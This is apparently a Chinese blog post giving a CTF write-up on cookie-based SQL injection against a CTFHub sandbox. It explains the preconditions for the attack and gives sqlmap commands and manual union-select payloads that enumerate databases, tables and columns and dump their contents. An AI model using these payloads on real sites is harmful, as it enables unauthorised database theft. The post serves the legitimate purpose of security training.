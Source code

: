 <!--yml
category: 未分类
date: 2022-04-26 14:36:07
-->

# ctf题解——sql注入（cookie注入）_ckkkkkkkkke的博客-CSDN博客

> 来源：[https://blog.csdn.net/ckkkkkkkkke/article/details/121061296](https://blog.csdn.net/ckkkkkkkkke/article/details/121061296)

**1.知识点**

　　cookie注入的原理是：就要修改cookie的值，我们是将提交的参数已cookie方式提交了，而一般的注入我们是使用get或者post方式提交，get方式提交就是直接在网址后面加上需要注入的语句，post则是通过表单方式，get和post的不同之处就在于一个我们可以通过IE地址栏处看到我们提交的参数，而另外一个却不能。

　　相对post和get方式注入来说，cookie注入就要稍微繁琐一些了，要进行cookie注入，我们首先就要修改cookie，这里就需要使用到Javascript语言了。

　　cookie注入的两个必须条件：

　　　　条件1是：程序对get和post方式提交的数据进行了过滤，但未对cookie提交的数据库进行过滤。

　　　　条件2是：在条件1的基础上还需要程序对提交数据获取方式是直接request("xxx")的方式，未指明使用request对象的具体方法进行获取，也就是说用request这个方法的时候获取的参数可以是是在URL后面的参数也可以是cookie里面的参数这里没有做筛选，之后的原理就像我们的sql注入一样了。

cookie注入分为以下几个阶段：

　　 1\. 判断是不是注入点

　　 2.得到字段总数

　　 3.查选表名

       4.查选列名

       5.查内容

 ![](img/ea77270e310e3dcb7c809271f846a8de.png)

**2.题解**

### **方法一 sqlmap自动注入**

```
python sqlmap.py -u "http://challenge-38d00693d21d6ccc.sandbox.ctfhub.com:10080" --cookie "id=1" --dbs --level 2

python sqlmap.py -u "http://challenge-38d00693d21d6ccc.sandbox.ctfhub.com:10080" --cookie "id=1" -D sqli --tables --level 2

python sqlmap.py -u "http://challenge-38d00693d21d6ccc.sandbox.ctfhub.com:10080" --cookie "id=1" -D sqli -T frkadyqcec --columns --dump --level 2 
```

语句一爆破出库名“sqli”

![](img/bda4fa6418a0cf2a8ed35804bf3b6633.png)

语句二--查表名

![](img/755dc04e774185e6c6f6979d8a400c71.png)

语句三--查列名

![](img/9eb1438b34070c6b3b6e0aca958f0abc.png)

### **方法二 burpsuite手动注入**

 使用burpsuite进行抓包

找到注入点，进行注入

![](img/4cc8477a70b92b15f04f8b9a6ba5eee8.png)

注入语句一，获得数据库123+union+select+database(),2#;

![](img/92c408e8321d7c080f3516911438a547.png)

注入语句二，获得表名123 union select group_concat(table_name),2 from information_schema.tables where table_schema='sqli' #

![](img/cdca160de822880567012584124f372c.png) 

注入语句三，获得列名123+union+select+group_concat(column_name),2 from information_schema.columns where table_schema='sqli' and table_name='prcvrbljct' #

![](img/0f8bdd0a7a28b0cd15b2b60dde659588.png)